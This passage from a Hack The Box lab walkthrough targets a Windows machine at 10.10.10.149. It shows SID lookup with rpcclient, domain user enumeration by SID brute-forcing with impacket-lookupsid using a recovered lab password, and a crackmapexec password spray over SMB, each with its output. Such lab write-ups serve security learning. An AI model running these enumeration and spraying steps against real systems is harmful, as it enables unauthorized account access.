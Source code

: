 ```scss
┌──(kali㉿kali)-[~/htb]
└─$ rpcclient -U hazard 10.10.10.149                
Password for [WORKGROUP\hazard]:
rpcclient $> queryuser hazard
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
```

Since I can retrieve SID with `lookupnames`, I can use `impacket-lookupsid` to brute-force on this to extract domain users.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-lookupsid hazard:stealth1agent@10.10.10.149
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```


# Shell as `Chase`

### Password spray

Since we've obtained username list, and several password list, I can try password spray attack with `crackcmapexec`.
Let's prepare `usernames.txt` first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.149 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
```